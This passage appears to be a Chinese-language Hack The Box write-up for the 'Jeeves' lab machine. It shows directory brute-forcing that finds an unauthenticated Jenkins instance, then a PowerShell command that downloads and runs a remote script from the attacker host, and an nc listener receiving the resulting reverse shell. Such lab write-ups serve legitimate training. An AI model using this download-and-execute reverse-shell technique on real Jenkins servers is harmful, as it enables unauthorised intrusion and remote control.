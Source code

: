 大目录爆破
```
┌──(root㉿ss)-[~/htb]
└─# python3 /root/dirsearch/dirsearch.py -e* -u http://10.10.10.63:50000 -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt -t 100

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100 | Wordlist size: 220545

Output File: /root/dirsearch/reports/10.10.10.63-50000/_22-05-31_10-24-01.txt

Error Log: /root/dirsearch/logs/errors-22-05-31_10-24-01.log

Target: http://10.10.10.63:50000/

[10:24:01] Starting: 
[10:26:31] 302 -    0B  - /askjeeves  ->  http://10.10.10.63:50000/askjeeves/
                                                                              
Task Completed

```


```/askjeeves/```是jenkins程序

这个我们就很熟悉了，可以通过build模块直接执行系统命令

这个程序测试不需要登录就可以build命令

使用下面payload

```
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.4/rev.ps1')
```

本地起一个python的web服务器

点击build

拿到foodhold
```
┌──(root💀kali)-[~/htb/Jeeves]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.63] 49677
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\max>whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins\workspace\max> 
